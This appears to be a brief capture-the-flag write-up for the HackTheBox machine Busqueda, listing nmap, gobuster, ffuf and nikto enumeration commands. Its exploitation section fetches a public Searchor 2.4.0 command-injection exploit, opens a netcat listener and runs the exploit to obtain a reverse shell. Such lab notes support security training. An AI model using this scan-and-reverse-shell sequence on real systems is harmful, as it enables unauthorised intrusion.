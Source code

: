 Busqueda
========================

## Enumeration

    sudo nmap_enum busqueda.htb | tee nmap_output.txt

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn busqueda.htb | tee nmap_udp_output.txt
    
    sudo nmap -p- -Pn -T5 -n busqueda.htb | tee nmap_fullportstcp_output.txt
    
    sudo nmap -sS --script vuln -n -T5 -Pn busqueda.htb -p 22,80 | tee nmap_vulns.txt
    
![qownnotes-media-ojmvSr](../../../media/qownnotes-media-ojmvSr.png)

URL Enumeration

    gobuster dir -u http://searcher.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    gobuster dir -u http://searcher.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
    
    gobuster dir -u http://searcher.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
    
![qownnotes-media-ETkRVo](../../../media/qownnotes-media-ETkRVo.png)


Subdomain enumeration

    ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.busqueda.htb" -u http://busqueda.htb -fw 18
    
    ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fw 18
    
![qownnotes-media-OIlJFa](../../../media/qownnotes-media-OIlJFa.png)

site scan

    nikto -host http://searcher.htb -T x 6 | tee nikto_output.txt
    
    nikto -host http://busqueda.htb -T x 6 | tee nikto_output.txt
    
![qownnotes-media-gEpYjc](../../../media/qownnotes-media-gEpYjc.png)

    httrack http://searcher.htb
    cat new.txt | cut -f 8
 
 ![qownnotes-media-bNPaGH](../../../media/qownnotes-media-bNPaGH.png)

    searchsploit Werkzeug
    
![qownnotes-media-nndZzn](../../../media/qownnotes-media-nndZzn.png)

## Exploitation

![qownnotes-media-WLUVVW](../../../media/qownnotes-media-WLUVVW.png)

    wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/main/exploit.sh
    
    chmod +x exploit.sh
    nc -nlvp 8081
    ./exploit.sh searcher.htb 10.10.14.17 8081

![qownnotes-media-lCEvaF](../../../media/qownnotes-media-lCEvaF.png)


![qownnotes-media-XbxKsi](../../../media/qownnotes-media-XbxKsi.png)

